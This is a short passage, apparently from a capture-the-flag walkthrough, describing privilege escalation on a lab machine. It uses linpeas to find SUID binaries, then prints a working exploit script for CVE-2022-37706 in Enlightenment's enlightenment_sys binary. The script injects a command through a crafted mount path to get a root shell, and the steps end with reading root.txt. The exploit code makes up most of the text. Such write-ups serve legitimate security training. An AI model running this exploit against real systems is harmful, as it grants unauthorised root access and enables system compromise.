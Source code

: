 Use `linpeas.sh` to find `SUID` binaries that could be exploited. One of the binaries `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys` is vulnerable.

Exploit it using the modified script from Exploit-DB:

```
#!/usr/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
file="/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys"

mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

Run the exploit:

```
bash root.sh
```

Get `root.txt`